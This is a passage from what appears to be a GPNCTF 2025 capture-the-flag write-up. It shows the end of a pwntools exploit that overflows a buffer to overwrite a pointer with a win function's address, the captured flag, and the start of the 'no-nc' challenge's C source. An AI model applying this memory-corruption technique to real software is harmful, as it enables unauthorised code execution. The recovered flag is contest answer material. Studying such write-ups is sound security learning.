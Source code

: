 ```python
    io.send(data)

def exit():
    io.sendlineafter(b'6. Quit\n', b'6')

io = start()

edit(b'0', b'1024', b'A'*1024 + b'\xff')

append(b'\x00' + p64(0x0)*3 + b'A'*0x10 + p64(exe.sym.win))

exit()

io.interactive()

```

![Untitled](/CTF/gpnctf25-11.png)

> GPNCTF{NOw_y0U_5uRE1y_are_REaDY_to_Pwn_14DyBird!}
> 

## no-nc

![Untitled](/CTF/gpnctf25-12.png)

![Untitled](/CTF/gpnctf25-13.png)

Only ASLR enabled this time.

```c
#include <stdio.h>
#include <string.h>
#include <unistd.h>
#include <stdlib.h>
#include <fcntl.h>

#define RAW_FLAG "GPNCTF{fake_flag}"

char *FLAG = RAW_FLAG;
```

First of all, the code defines a **macro** containing a **hardcoded flag.**

Let’s breakdown the **main function.**

```c
int main(int argc, char **argv)
{
    setbuf(stdin, 0);
    setbuf(stdout, 0);
    setbuf(stderr, 0);
    char buf[200] = {};
    puts("Give me a file to read");
    read(STDIN_FILENO, buf, (sizeof buf) - 1);
    buf[sizeof buf - 1] = '\0';
```
